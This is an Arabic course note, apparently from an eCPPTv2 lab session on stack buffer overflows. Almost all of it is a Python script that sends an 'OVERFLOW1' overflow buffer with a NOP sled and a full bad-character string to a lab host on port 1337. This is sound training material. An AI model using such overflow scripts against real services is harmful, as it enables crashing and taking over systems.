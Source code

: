 # Session 3 (eCPPTv2) - Day 3  
## Penetration Testing: System Security Part 3  

السلام عليكم ورحمة الله وبركاته  

اليوم باذن الله راح نبدا من الي وقفنا عليه امس  

اليوم باذن الله راح نركز الصعبه علينا امس  
JUMP to ESP هذا كان فيه اشكالية عند الاغلب ف بنعيده  


اول شي بنجرب الطريقة اليدوية  

طبعا راح نكتب هذا الكود  
```python
import socket
ip = "10.10.60.243"
port = 1337
prefix = "OVERFLOW1 "
offset = 1978
overflow = "A" * offset
retn = ""
padding = "\x90" * 24

chars="\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"


postfix = ""
buffer = prefix + overflow + retn + padding + chars 

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer , "latin-1"))
  print("Done!")
except:
  print("Could not connect.")

```  
